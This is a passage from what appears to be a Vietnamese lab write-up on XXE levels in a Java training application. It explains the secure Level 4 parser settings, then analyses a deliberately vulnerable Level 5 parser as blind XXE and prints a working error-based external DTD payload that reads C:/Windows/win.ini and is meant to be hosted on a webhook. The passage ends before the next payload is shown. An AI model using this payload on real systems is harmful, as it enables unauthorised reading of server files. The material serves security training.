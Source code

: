 Nó đã sử dụng bật tắt các feature để cấm XXE như là : 

- http://apache.org/xml/features/disallow-doctype-decl 
- http://xml.org/sax/features/external-general-entities 
- http://xml.org/sax/features/external-parameter-entities 
- setXIncludeAware(false)
- setExpandEntityReferences(false)
- newDocumentBuilder()

Từ đó thành công ngăn chặn đi các payload XXE được inject vào nên dù test với payload nào cũng sẽ bị chặn lại.

**Level 4 secure vì:**

Loại bỏ DOCTYPE (gốc của XXE entity)
Vô hiệu hóa external entities (kể cả nếu ai đó bật lại DOCTYPE)
Tắt XInclude
Không mở kênh schema / stylesheet → Tất cả vector XXE phổ biến bị triệt.

#### Level 5: 

```java 
public String parseLevel5(String xml) {
        try {
            // Vulnerable parser, but the response doesn't show the content
            createVulnerableBuilder().parse(new InputSource(new StringReader(xml)));
            return "Data processed successfully."; // No content is returned
        } catch (Exception e) {
            return "Error: " + e.getMessage();
        }
    }
```

Ở đây theo phân tích code thì ta thấy rằng:

- Dùng parser “vulnerable” (DocumentBuilder mặc định) → CHO PHÉP DOCTYPE + external entity.
- KHÔNG in ra nội dung XML.

Vì không trả về nội dung XML nên ta có thể suy đoán tình huống này là Blind XXE với tình huống này ta sẽ nghĩ cách để đưa được output ra ngoài hoặc ta sẽ làm nó tạo ra lỗi và vô tình in ra kết quả (Error Based).

Ta sẽ sử dụng webhook để tiến hành tấn công thử.

![image](https://hackmd.io/_uploads/HJYKx1vnle.png)

Tạo một url mới của webhook có chứa nội dung xml payload:

```xml 
<!ENTITY % file SYSTEM "file:///C:/Windows/win.ini">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///%file;'>">
%eval;
%error;
```

Sau đó đưa payload khác gọi đến webhook với mong muốn là nó sẽ nổ lỗi kèm theo đó là kết quả hoặc là kết quả sẽ được trả về trong response:
